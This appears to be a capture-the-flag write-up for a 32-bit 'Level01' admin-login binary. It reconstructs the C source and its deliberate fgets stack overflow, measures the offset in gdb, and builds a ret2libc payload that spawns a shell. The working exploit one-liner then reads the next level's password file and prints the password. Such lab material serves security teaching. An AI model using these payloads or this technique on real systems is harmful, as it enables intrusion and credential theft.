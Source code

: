 # Level01

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector -m32 -z execstack source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char a_user_name[256];

int verify_user_name()
{
    puts("verifying username....\n");
    return strncmp(a_user_name, "dat_wil", 7);
}

int verify_user_pass(char *a_user_pass)
{
    return strncmp(a_user_pass, "admin", 5);
}

// line differences on main+11 and main+15 (extra use of eax)
int main()
{
    char buf[64]; // 0x1c(%esp)
    int ret; // 0x5c(%esp)

    memset(buf, 0, 64);
    ret = 0;

    puts("********* ADMIN LOGIN PROMPT *********");

    printf("Enter Username: ");
    fgets(a_user_name, 256, stdin);
    ret = verify_user_name();
    if (ret != 0)
    {
        puts("nope, incorrect username...");
        return 1;
    }

    puts("Enter Password: ");
    fgets(buf, 100, stdin);
    ret = verify_user_pass(buf);
    if (ret == 0 || ret != 0)
    {
        puts("nope, incorrect password...");
        return 1;
    }

    return 0;
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe as it has a mechanism to limit the number of bytes read. However, we're reading 100 bytes in `buf` which only has 64 bytes allocated on the stack. This will allow us to overflow the buffer and overwrite the return address of the `main` function.

Let's analyze the stack layout of our program:
```bash
(gdb) b *main+226 # Breaking before leave and pop instructions
Breakpoint 1 at 0x80485b2

(gdb) r # Run the program
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username:
verifying username....

nope, incorrect username...


Breakpoint 1, 0x080485b2 in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xffffd6a0       0xffffd6a0
ebp            0xffffd708       0xffffd708
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 104 bytes:
```
0xffffd708 - 0xffffd6a0 = 68 (104 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x1c(%esp)`. Since there is 104 bytes for the stack, our buffer will therefore require 76 bytes (104 - 28) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 80 bytes (76 + 4).
> If you're struggling, you can just use a [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), to find the offset of the return address. However, it is recommended to understand the stack layout and how to calculate the offset yourself.

Anything written beyond those 80 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There are different ways to solve this challenge, we'll only cover the `ret2libc` method.
> When we refer to padding, we mean the bytes we need to write before reaching the return address.

### Ret2libc

#### Explanation
Ret2Libc (Return-to-Libc) is an exploit technique that redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"
```
> The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.

#### Exploit
We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xf7e6aed0  system
[...]

# Exit
(gdb) info function exit
0xf7e5eb70  exit
[...]

# /bin/sh
(gdb) info proc mappings
[...]
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
[...]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*80 + "\xf7\xe6\xae\xd0" + "\xf7\xe5\xeb\x70" + "\xf7\xf8\x97\xec"
```

Here's the complete exploit:
```python
(python -c 'print("dat_wil"); print("\x90"*80+"\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat)| ./level01
```
> We also have to provide the username `dat_wil` to pass the first check from the `verify_user_name` function.

Let's run it:
```bash
(python -c 'print("dat_wil"); print("\x90"*80+"\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat)| ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

We are now level02! Let's move on to the next level.